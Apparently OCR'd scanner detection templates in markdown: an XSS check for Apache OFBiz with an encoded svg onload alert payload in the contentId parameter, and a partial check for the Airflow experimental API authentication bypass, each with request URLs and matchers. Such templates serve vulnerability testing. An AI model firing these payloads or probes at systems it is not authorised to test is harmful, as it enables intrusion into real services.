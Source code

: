 - Apache OFBiz 16.11.01 to 16.11.07 is vulnerable to cross-site scripting because data sent with contentId to /control/stream is not sanitized.
- severity - medium
- tags - cve,cve2020,apache,xss,ofbiz

## Requests

- Method - GET

### URL

- {{BaseURL}}/control/stream?contentId=%27\%22%3E%3Csvg/onload=alert(/xss/)%3E

### Matchers

**Type - word**

- words
  1. \<svg/onload=alert(/xss/)>
- part - body

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---

# Airflow Experimental \<1.10.11 - REST API Auth Bypass

## Description

- Airflow's Experimental API prior 1.10.11 allows all API requests without authentication.

- severity - critical
- tags - packetstorm,cve,cve2020,apache,airflow,unauth,auth-bypass,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/api/experimental/latest_runs

### Matchers
